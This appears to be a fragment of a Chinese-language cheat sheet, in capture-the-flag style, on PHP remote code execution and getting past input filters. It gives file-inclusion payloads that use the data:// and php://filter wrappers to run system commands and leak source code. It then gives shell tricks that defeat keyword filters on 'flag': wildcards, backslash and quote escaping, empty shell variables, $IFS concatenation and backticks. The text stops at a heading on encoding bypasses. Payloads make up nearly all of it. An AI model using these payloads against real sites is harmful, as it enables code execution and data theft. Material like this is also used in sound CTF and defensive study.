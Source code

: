 #RCE-利用&绕过&异或&回显

### 1、伪协议玩法

配合文件包含伪协议（代码执行）
```
include $_GET[a]?>&a=data://text/plain,<?php system('ver');?>

include $_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=index.php

```

### （1）关键字过滤：

#### 1、过滤flag关键字

通配符

```
flag=fl*

cat fl*

cat ?la*

```
转义符号
```
ca\t /fl\ag

cat fl''ag
```

使用空变量$*和$@，$x,${x}绕过

```
ca$*t fl$*ag

ca$@t fl$@ag

ca$5t f$5lag

ca${2}t f${2}lag
```

拼接法

```
	a=fl;b=ag;cat$IFS$a$b

```

反引号绕过:

```
	cat `ls`
```
编码绕过:
